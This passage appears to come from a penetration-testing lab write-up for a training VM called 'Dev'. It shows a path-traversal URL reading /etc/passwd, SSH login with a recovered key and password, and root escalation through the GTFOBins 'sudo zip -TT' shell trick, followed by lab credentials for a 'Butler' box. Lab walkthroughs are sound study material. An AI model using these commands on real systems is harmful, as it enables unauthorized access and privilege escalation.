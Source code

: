 ```bash
/index.php?p=action.search&action=../../../../../../../etc/passwd
```

- [http://192.168.31.130:8080/dev/index.php?p=action.search&action=../../../../../../../etc/passwd](http://192.168.31.130:8080/dev/index.php?p=action.search&action=../../../../../../../etc/passwd)

![](.gitbook/assets/2024-07-14_12-35-27_623.png)

#### SSH

- The user is `jeanpaul`

```bash
cd ~/tcm/peh/dev

ssh -i id_rsa jeanpaul@192.168.31.130
# Enter passphrase for key 'id_rsa':
# Try the Database found password
# I_love_java

jeanpaul@dev:~$

sudo -l
# /usr/bin/zip can be run as elevated privileges
```

![](.gitbook/assets/2024-07-14_12-37-24_624.png)

- Abuse `sudo /usr/bin/zip` to escalate to `root` user

#### Privesc GTFO Bins

➡️ [GTFO Bins](https://gtfobins.github.io/)

- Check [zip - GTFOBins](https://gtfobins.github.io/gtfobins/zip/)
  - look for `Sudo` - If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'

id
cd /root
cat flag.txt
```

![](.gitbook/assets/2024-07-14_12-48-12_626.png)

---

## Butler

> O.S. - Windows 10
>
> Credentials:
>
> - Low Privilege User - `butler`:`JeNkIn5@44`
> - Admin - `administrator`:`A%rc!BcA!`
